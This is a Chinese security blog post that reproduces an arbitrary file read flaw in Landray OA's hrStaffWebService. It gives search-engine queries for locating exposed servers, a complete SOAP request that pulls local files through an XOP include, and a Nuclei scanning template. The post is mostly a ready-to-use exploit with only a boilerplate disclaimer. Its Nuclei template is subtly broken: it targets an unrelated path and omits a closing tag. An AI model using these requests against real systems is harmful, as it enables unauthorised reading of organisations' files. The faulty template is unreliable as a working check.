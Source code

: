 #  【漏洞复现】蓝凌OA hrStaffWebService任意文件读取漏洞   
混子Hacker  混子Hacker   2024-11-09 22:30  
  
****  
**免责声明**  
  
请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，文章作者不承担任何法律及连带责任。  
  
  
[   
漏洞简介   
]  
  
——    
一切都是最好的安排，一定要学会忍耐  
 ——  
  
蓝  
凌OA  
  
蓝凌OA  
软件采用微服务架构，支持高低代码开发，可扩展性强。它内置多种功能模块，如邮件管理、日程安排、文档管理、工作流审批等，满足企业多样化需求。同时，蓝凌OA还支持多系统连接，实现端到端高效业务流程。该系统hrStaffWebService接口存在任意文件读取漏洞。  
  
  
  
  
  
  
漏洞信息  
  
  
  
**混子Hacker**  
  
**01**  
  
资产测绘  
  
  
```
fofa: app="Landray-OA系统"
Quake：app:"蓝凌OA系统"
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/a5FBLichkAGuPGFlRM8sK8Uspd2EQYl5oxeTib0PrnX5ibrUe9zzTpO1CSFBVZgBSRokaiaqL818GeViaqAQ5xcMG3A/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/a5FBLichkAGuPGFlRM8sK8Uspd2EQYl5oFSjFIKFDQUnOxUR3Iux2FpEgbEFW79iaehfAhc51yibSj8PibLwEv16Lw/640?wx_fmt=png&from=appmsg "")  
  
  
  
**混子Hacker**********  
  
**02**  
  
漏洞复现  
  
  
```
POST /sys/webservice/hrStaffWebService HTTP/1.1
Host: hostname
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
Content-Type: multipart/related; boundary=----WebKitFormBoundaryk8DbZoq3wNm32b66
SOAPAction: ""

------WebKitFormBoundaryk8DbZoq3wNm32b66
Content-Disposition: form-data; name="1"

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:web="http://webservice.staff.hr.kmss.landray.com/">
<soapenv:Header/>
<soapenv:Body>
    <web:getHrStaffElements>
        <arg0>
            <beginTimeStamp>1</beginTimeStamp>
            <count><xop:Include 
xmlns:xop="http://www.w3.org/2004/08/xop/include" 
href="file:///"/></count>
        </arg0>
    </web:getHrStaffElements>
</soapenv:Body>
</soapenv:Envelope>
------WebKitFormBoundaryk8DbZoq3wNm32b66--
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/a5FBLichkAGuPGFlRM8sK8Uspd2EQYl5otd9y1shSibdSZrF5V50fYljKibzibzM3B8BaibZFWwepuabzXOnoZR4Nog/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/a5FBLichkAGuPGFlRM8sK8Uspd2EQYl5oj7J0xVqfEhxA43ZnWQjUVWR4uVGASbia93MvaJfjYqGNlRhvnQa0VgQ/640?wx_fmt=png&from=appmsg "")  
  
  
  
  
  
**混子Hacker**********  
  
**03**  
  
Nuclei Poc  
  
  
```
id: landray-hrStaffWebService-fileread

info:
  name: landray hrStaffWebService 任意文件读取
  author: thomas
  severity: critical
  metadata:
    fofa-query: app="Landray-OA系统"
  tags: landray,fileread

requests:
  - raw:
      - |
        POST /emap/devicePoint_addImgIco?hasSubsystem=true HTTP/1.1
        Host: {{Hostname}}
        User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
        Content-Type: multipart/related; boundary=----WebKitFormBoundaryk8DbZoq3wNm32b66
        SOAPAction: ""

        ------WebKitFormBoundaryk8DbZoq3wNm32b66
        Content-Disposition: form-data; name="1"
        
        <soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:web="http://webservice.staff.hr.kmss.landray.com/">
        <soapenv:Header/>
        <soapenv:Body>
            <web:getHrStaffElements>
                <arg0>
                    <beginTimeStamp>1</beginTimeStamp>
                    <count><xop:Include 
        xmlns:xop="http://www.w3.org/2004/08/xop/include" 
        href="file:///"/>
                </arg0>
            </web:getHrStaffElements>
        </soapenv:Body>
        </soapenv:Envelope>
        ------WebKitFormBoundaryk8DbZoq3wNm32b66--

    matchers-condition: and
    matchers:
      - type: word
        words:
          - "Unmarshalling Error: Not a number"
        part: body
```  
  
  
  
<<<    
END   
>>>  
  
  
  
原创文章｜转载请附上原文出处链接  
  
更多漏洞｜关注作者查看  
  
作者｜混子Hacker  
  
  
  
